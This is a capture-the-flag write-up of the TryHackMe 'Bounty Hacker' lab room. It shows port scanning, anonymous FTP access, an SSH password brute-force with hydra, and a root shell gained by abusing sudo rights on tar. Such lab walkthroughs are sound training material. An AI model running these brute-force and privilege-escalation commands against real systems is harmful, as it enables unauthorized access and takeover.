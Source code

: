 ```yaml
---
layout: article
title: Bounty Hacker
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://miro.medium.com/v2/resize:fit:828/format:webp/0*pSY-gfbX6aNhVPeQ.jpeg
permalink: /writeups/bountyhacker
tags:
- TryHackMe
- Write-Up
---
```


## Introduction
*You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!*

## Reconnaissance
Deploy the machine e start with recon!
Starting with a port scan we have the following situation:

``` 
Nmap scan report for 10.10.28.89
Host is up (0.082s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Hint suggest us to look for ftp service.

```shell 
sudo nmap -sV -sC -A 10.10.28.89 -p 21
```

We can connect to ftp service with *anonymous* user.

```shell 
ftp <IP>
```

We have found two txt files.
In one file we find the username and in the other file a password list.

## Getting a shell
With username and a password list we can use hydra to obtain a shell exploiting ssh service.

```shell 
hydra -l lin -P ./locks.txt ssh://10.10.28.89:22
```

We found the password and now we can connect with ssh.

```shell 
ssh lin@<IP>
```

## Privilege Escalation
I launched `sudo -l` and shell returns me this error: 

```
User lin may run the following commands on bountyhacker: 
	(root) /bin/tar
```

So I searched on Google how to obtain a root shell exploiting `/bin/tar`.

I found the following guide: [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

I launched the following command:
```shell
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

and I obtained a root shell.

